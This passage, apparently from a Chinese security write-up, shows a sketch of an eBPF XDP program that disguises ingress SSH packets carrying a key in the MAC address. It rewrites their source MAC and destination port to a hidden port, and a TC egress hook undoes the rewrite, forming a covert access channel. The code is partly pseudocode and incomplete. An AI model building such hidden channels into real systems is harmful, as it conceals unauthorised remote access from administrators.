 ```null
SEC("xdp/ingress")
int xdp_ingress(struct xdp_md *ctx) {
struct cursor c;
struct pkt_ctx_t pkt;


if (!(不是SSHD协议(&c))) {
return XDP_PASS;
}


hack_mac[] = "读取bpf map配置。"
if(密钥不匹配) {
return XDP_PASS;
}


struct netinfo client_key = {};
__builtin_memcpy(&client_key.mac, &pkt.eth->h_source, ETH_ALEN);

struct netinfo *client_value;
client_value = bpf_map_lookup_elem(&ingress_client, &client_key);


if(!client_value) {
__builtin_memset(&client_value, 0, sizeof(client_value));
} else {
bpf_map_update_elem(&ingress_client, &client_key, &client_value, BPF_ANY);
}


pkt.eth->h_source[0] = 0x00;
...




pkt.tcp->dest = htons(FACK_PORT);    


ipv4_csum(pkt.tcp, sizeof(struct tcphdr), &csum);
pkt.tcp->check = csum;


return XDP_PASS;
}
```

比较简单的demo，即可实现 ingtrss侧TCP数据包的伪装。同样，TC层处理egress方向的数据包时，只需要对伪装包的原始信息作还原即可。整个流程如下图：

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/10/ecf7281b-2f8e-4d7a-a9c6-e3bcdfe46d99.jpeg?raw=true)

